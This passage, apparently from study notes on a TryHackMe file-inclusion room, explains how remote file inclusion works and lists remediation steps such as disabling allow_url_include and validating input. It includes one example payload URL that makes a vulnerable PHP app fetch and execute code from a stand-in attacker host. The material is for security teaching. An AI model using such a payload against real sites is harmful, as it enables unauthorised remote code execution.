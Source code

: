 First, the attacker injects the malicious URL, which points to the attacker's server, such as <mark style="color:red;">`http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`</mark>. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a <mark style="color:red;">`GET`</mark> request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the <mark style="color:red;">`Hello THM`</mark> message.

## Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.&#x20;
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.&#x20;
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as <mark style="color:red;">`allow_url_fopen`</mark> on and <mark style="color:red;">`allow_url_include`</mark>.&#x20;
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.&#x20;
6. Never trust user input, and make sure to implement proper input validation against file inclusion.&#x20;
7. Implement whitelisting for file names and locations as well as blacklisting.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Information courtesy of [Yas3r](https://tryhackme.com/p/Yas3r)

Go to the room [here](https://tryhackme.com/room/fileinc).
